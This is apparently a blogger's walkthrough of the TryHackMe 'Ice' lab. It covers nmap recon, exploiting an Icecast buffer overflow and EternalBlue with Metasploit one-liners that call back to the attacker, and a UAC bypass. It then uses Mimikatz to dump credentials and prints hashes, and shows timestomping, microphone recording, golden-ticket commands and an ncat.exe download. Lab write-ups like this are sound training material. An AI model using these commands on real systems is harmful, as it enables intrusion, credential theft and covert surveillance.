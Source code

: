 ```yaml
---
title: 'TryHackMe - Ice'
description: "Lorem Ipsum"
author: 'Tim Sonner'
date: '2023-07-08'
hero: '/thm-ice/thm-ice-hero.png'
published: true
---
```


![](/thm-ice/thm-ice-hero.png)  

## Recon  

**Nmap service scan**  

```  
nmap -sV -vv $IP 
```  

![](/thm-ice/thm-ice-nmap-sv.png)  

> This room covers the service running on port 8000 (Icecast).  


**Nmap vulnerability scan**  

``` 
nmap -script=vuln -vv $IP   
```  
![](/thm-ice/thm-ice-nmap-script-vuln.png)  

> This box is also vulnerable to Eternal Blue (ms17-010) CVE-2017-0143.  

## Research the exploit. The room wants us to research a specific CVE from 2004. 

**cvedetails.com results for "Icecast"**  

![](/thm-ice/thm-ice-cvedetails-icecast.png)  

> Hmmm... No CVE results from 2004.

**exploit-db.com results for "Icecast"**  

![](/thm-ice/thm-ice-exploitdb-icecast.png)  

> The correct CVE is linked in the exploit-db results (2004-10-6 or 2004-10-12)

**ChatGPT results for Icecast vulnerabilities from 2004**  

![](/thm-ice/thm-ice-chatgpt-icecast-2004.png)  

> We now know the CVE in question is CVE-2004-1561.  

**cvedetails.com results for CVE-2004-1561**  

![](/thm-ice/thm-ice-cvedetails-cve-2014-1561.png)  

> The vulnerability allows us to "Execute Code" by leveraging a buffer "Overflow".  

**Digging a bit deeper... searchsploit results for "Icecast"**  
![](/thm-ice/thm-ice-searchsploit.png)  

**View the exploit**

```  
cat /usr/share/exploitdb/exploits/windows_x86/remote/16763.rb
```  

## Exploit

**Metasploit search results for "icecast"**  
![](/thm-ice/thm-ice-metasploit-search-icecast.png)  

**Metasploit command**  

```  
msfconsole -x "use exploit/windows/http/icecast_header;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Note tun0 may not be the only tun interface. Run 'ip addr' to view interfaces, command above may need tun1.  

**Get our user ID and view the icecast process**  
![](/thm-ice/thm-ice-meterpreter-ps.png)  
> We get the same PID if we run getpid. That process is us.

**View all processes**  
![](/thm-ice/thm-ice-meterpreter-ps-regular.png)  

## Elevate our privileges  

**View our privileges**  
```  
getprivs
```  
![](/thm-ice/thm-ice-meterpreter-getprivs-1.png)

**Get suggested exploits**  

```  
run post/multi/recon/local_exploit_suggester
```  

![](/thm-ice/thm-ice-meterpreter-local-suggestions.png)  

**Use a suggested exploit**  

```  
use exploit/windows/local/bypassuac_eventvwr
```  

![](/thm-ice/thm-ice-metasploit-bypassuac-eventvwr.png)  

**Once the exploit has ran, view our sessions, 2 is elevated**  

![](/thm-ice/thm-ice-metasploit-sessions.png)  

**Our user ID is the same as in the un-elevated session**  
![](/thm-ice/thm-ice-meterpreter-getuid.png)

**Our privileges in the elevated session are different**  

![](/thm-ice/thm-ice-meterpreter-getprivs-2.png)  

**View processes in the elevated session. Notice different results between sessions? Our privileged shell can view owners of all processes**  

![](/thm-ice/thm-ice-meterpreter-ps-elevated.png)  

**Migrate to another session**  

![](/thm-ice/thm-ice-meterpreter-migrate.png)

**Load Mimikatz aka Kiwi**  

![](/thm-ice/thm-ice-meterpreter-load-kiwi.png)  


**Get credentials**  
![](/thm-ice/thm-ice-mimikatz-creds-all.png)  

**Dump the hashes with "hashdump"**  

```  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```  

**Spin up an RDP session utilizing the user Dark's credentials to authenticate**  

```  
run post/windows/manage/enable_rdp
```  
> This opens the RDP port and starts the service on the target if not already enabled.  

```  
rdesktop $IP
```  
> Remote desktop, just give it an IP. This command is ran on the localhost of course.  

![](/thm-ice/thm-ice-rdesktop.png)  

**View the target's desktop in real time in a browser window.**  

```  
screenshare
```  

![](/thm-ice/thm-mimikatz-screenshare.png)  

**Mess with timestamps.**  

```  
timestomp desktop.ini -m "07/08/2023 15:30:00"
```  

![](/thm-ice/thm-ice-timestomp.png)  

**Record audio from the taget device's microphone.**  

```  
record_mic
```  
> Don't think this works on this box...

**Create a Kerberos golden ticket to take you where you're going in life...**  

```  
golden_ticket_create
```  
> load kiwi is required for this command.  Also, this box isn't domain joined.  

**Let's p0wn the box using the eternal blue exploit**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Ridiculously EZ.  

![](/thm-ice/thm-ice-metasploit-eternal-blue.png)  

**Here's an exploit to try out and work on...**  

Icecast 2.0.1 (Win32) - Remote Code Execution (1) 

https://www.exploit-db.com/exploits/568  

**Here's a copy of ncat.exe in case we want to rewrite the exploit...**  

[https://timsonner.com/static/files/ncat.exe](/static/files/ncat.exe)  

# Donezo Funzo.











